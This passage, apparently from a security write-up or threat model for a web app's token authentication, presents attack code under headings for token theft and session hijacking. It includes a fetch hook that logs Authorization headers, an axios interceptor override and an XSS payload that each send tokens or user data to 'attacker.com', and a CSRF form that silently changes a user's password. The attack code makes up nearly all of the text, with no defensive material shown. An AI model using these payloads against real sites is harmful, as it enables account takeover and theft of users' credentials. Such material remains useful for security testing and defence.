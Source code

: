 ### 2. **Token Theft & Reuse**

#### Method A: Network Interception
```javascript
// In browser console
const originalFetch = window.fetch;
window.fetch = function(...args) {
  console.log('Request:', args);
  if (args[1]?.headers?.Authorization) {
    console.log('Token:', args[1].headers.Authorization);
  }
  return originalFetch.apply(this, args);
};
```

#### Method B: Axios Interceptor Override
```javascript
// Override axios interceptor
const originalRequest = apiClient.interceptors.request.handlers[0].fulfilled;
apiClient.interceptors.request.handlers[0].fulfilled = function(config) {
  if (config.headers.Authorization) {
    console.log('Stolen token:', config.headers.Authorization);
    // Send to attacker's server
    fetch('https://attacker.com/steal', {
      method: 'POST',
      body: JSON.stringify({ token: config.headers.Authorization })
    });
  }
  return originalRequest(config);
};
```

### 3. **Session Hijacking**

#### Method A: XSS Attack
```javascript
// If XSS vulnerability exists
<script>
fetch('/api/auth/me', {
  headers: { 'Authorization': 'Bearer ' + localStorage.getItem('token') }
}).then(r => r.json()).then(data => {
  // Send user data to attacker
  fetch('https://attacker.com/hijack', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
</script>
```

#### Method B: CSRF Attack
```html
<!-- Malicious website -->
<form action="http://localhost:3001/api/auth/change-password" method="POST">
  <input type="hidden" name="newPassword" value="hacked123">
  <input type="submit" value="Click here to win!">
</form>
```

---